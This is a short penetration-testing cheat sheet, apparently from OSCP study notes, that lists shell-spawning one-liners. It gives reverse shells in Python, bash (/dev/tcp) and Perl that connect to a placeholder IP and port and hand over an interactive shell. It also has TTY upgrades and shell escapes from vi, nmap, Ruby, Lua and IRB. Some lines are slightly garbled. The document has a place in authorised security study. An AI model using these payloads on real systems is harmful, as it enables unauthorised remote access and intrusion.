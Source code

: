 # Shell Spawning


Use `which $spawning-tool`

<b>Python:</b>
```bash

python -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Bash:
```bash
echo os.system('/bin/bash')

/bin/sh -i
	
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done
```

Perl:
```bash
perl —e 'exec "/bin/sh";'
	
perl: exec "/bin/sh";
	
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
	
Ruby
```bash
ruby: exec "/bin/sh"
```

Lua
```bash
lua: os.execute('/bin/sh')
```

From within IRB:
```
exec "/bin/sh"
```

From within vi:
```bash
:!bash
```
From within vi
```bash
:set shell=/bin/bash:shell
```

From within nmap:
```
!sh
```

## References

[pythonmaster GO-FOR-OSCP](https://github.com/pythonmaster41/Go-For-OSCP/blob/master/README.md)